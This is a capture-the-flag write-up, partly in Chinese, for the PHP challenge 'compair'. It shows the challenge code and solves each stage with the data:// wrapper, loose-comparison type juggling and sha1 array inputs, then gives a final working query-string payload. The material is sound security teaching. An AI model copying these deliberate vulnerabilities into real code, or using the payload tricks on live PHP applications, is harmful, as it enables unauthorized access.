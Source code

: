 # UMCTF2021 - compair

- Write-Up Author: T4rn \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag:MOCSCTF{php_15_50_c0mpl3x_3333!}

## **Question:**
compair

[src](./src/index.php)

## Write up

**reference:**  
[PHP Wrappers](https://www.php.net/manual/en/wrappers.php) - PHP comes with many built-in wrappers for various URL-style protocols
[PHP comparison table](https://www.php.net/manual/en/types.comparisons.php)  
[PHP null](https://www.php.net/manual/en/language.types.null.php)

---

1. first stage
```php
// Stage 1
if (isset($_GET['text'])) {
	$text = $_GET['text'];
	if(@file_get_contents($text)!=="кеeр"){
        die("You must speak my language a different way!</br>");
	}
	echo "Stage 1 is complete! You unlocked the key: <b>".$secretkey."</b></br>";
}
```
File_get_contents的内容 用data伪协议 

>text=data://text/plain,кеeр

data:// - The data: (» RFC 2397) stream wrapper.

2. second stage
```php
// Stage 2
if (isset($_GET['key1'])) {
	$key1 = $_GET['key1'];
	$keyId = 1314;
	if (intval($key1) !== $keyId || $key1 === $keyId) {
    	die(""."what's your problem</br>");
	}
	echo "flag first part: <b>".$flag1."</b></br>";
	echo "Stage 2 is complete! Keep Going!</br>";
}
```
php弱类型的经典考察 字符串转int 使用1314a
>&key1=1314a

3. third stage
```php
// Stage 3
if (isset($_GET['hash'])&&isset($_GET['token'])&&isset($_GET['keyId'])) {
	$hash = $_GET['hash'];
	$token = intval($_GET['token']);
	if(substr(hash("sha256", $keyId + $token . $secretkey), 5, 25) == $hash) {
    	$keyId = $_GET['keyId'];
	} else {
    	die("Out!</br>");
	}
	echo "flag second part: <b>".$flag2."</b></br>";
	echo "Stage 3 is complete! You defeated death, for now...</br>";
}
```
很简单 所有的都是你可控的 你可以token置0来算hash
>&token=0&hash=173ffffa99d79bec5c4e1af35

4. final stage
```php
// stage 4
if (isset($_GET['key2'])&&isset($_GET['keyId'])) {
	$key2=$_GET['key2'];
	if ($keyId==$key2) {
		die("i don't expect they are same</br>");
	} elseif (sha1($keyId)===sha1($key2)) {
		echo "Final stage is complete Congratulations</br>";
	} else {
		die("They are even not equal..</br>");
	}
	echo "flag final part: <b>".$flag3."</b></br>";
	echo "<b>".$flag1.$flag2.$flag3."</b></br>"; 
}
```
Sha1和md5函数 可以用数组(array)截断 FALSE===FALSE
>&keyId[]=aaaa&key2[]=y

final payload

>?text=data://text/plain,кеeр&key1=1314a&token=0&hash=173ffffa99d79bec5c4e1af35&keyId[]=aaaa&key2[]=y  

![img](./img/1.png)
